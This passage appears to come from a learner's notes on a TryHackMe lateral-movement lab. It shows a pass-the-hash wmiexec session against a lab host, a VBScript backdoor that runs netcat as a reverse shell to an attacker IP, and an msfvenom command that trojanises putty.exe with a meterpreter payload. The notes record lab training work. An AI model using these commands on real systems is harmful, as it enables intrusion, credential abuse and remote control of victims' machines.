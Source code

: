 ![](/assets/obsidian/f9b0c7660c4113641d7cd861a6950ddd.png)

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q wmiexec.py za.tryhackme.com/t1_toby.beck@THMIIS.za.tryhackme.com -hashes 00:533f1bd576caa912bdb9da284bbc60fe
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>%userprofile%\Desktop\flag.exe
THM{NO_PASSWORD_NEEDED}
```


## Abusing User Behaviour


### Abusing Writable Shares

- Crack Map Exec Modules
- ETC


### Backdooring .vbs Scripts

```vbscript
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```


### Backdooring .exe Files

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```
